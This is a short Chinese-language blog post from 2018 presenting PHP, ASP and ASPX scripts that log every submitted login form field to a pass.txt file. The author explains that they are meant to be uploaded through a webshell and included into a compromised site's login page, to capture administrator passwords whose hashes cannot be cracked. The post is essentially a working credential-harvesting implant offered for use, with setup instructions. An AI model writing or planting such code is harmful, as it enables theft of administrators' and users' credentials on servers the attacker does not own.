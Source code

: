 ```yaml
---
title: "Web 密码记录脚本"
date: 2018-03-06T00:00:00+08:00
draft: false
tags: ['php','asp','asp.net']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


写这些脚本主要是方便记录管理员的密码.

通常为 md5+salt 或者为 强密码 无法解密.

需要上传至 webshell.

<!--more-->

脚本均已在本地测试成功.

在对应的 login 文件上 include 即可.

默认保存在同目录下的 pass.txt 记录所有 POST 变量

## php

```
<?php
if (isset($_POST)){
	$f = fopen('pass.txt','a+');
	foreach ($_POST as $k=>$v){
		fwrite($f,$k.':'.$v."\r\n");
	}
	fclose($f);
}
?>
```

## asp

```
<%
dim fs,fname
set fs=Server.CreateObject("Scripting.FileSystemObject")
set fname=fs.OpenTextFile(server.mappath("pass.txt"),8,true)
For i = 1 To Request.Form.Count
fname.WriteLine(""&Request.Form.Key(i)&":" & Request.Form(Request.Form.Key(i)))
Next
fname.Close
set fname=nothing
set fs=nothing
%>
```

## aspx

```
<%@ Page Language="Jscript"%>
<%@ import namespace="System.IO" %>
<%
var filepath = Server.MapPath("pass.txt");
var sw = new StreamWriter(filepath, true);
for (var i = 0;i<Request.Form.Count;i++){
sw.WriteLine(Request.Form.Keys[i].ToString() + ":" + Request.Form[i].ToString());
}
sw.Close();
%>
```

php 包含为 `include 'config.php'`.

asp 与 asp.net 为 `<!-- #include file="config.aspx" -->`.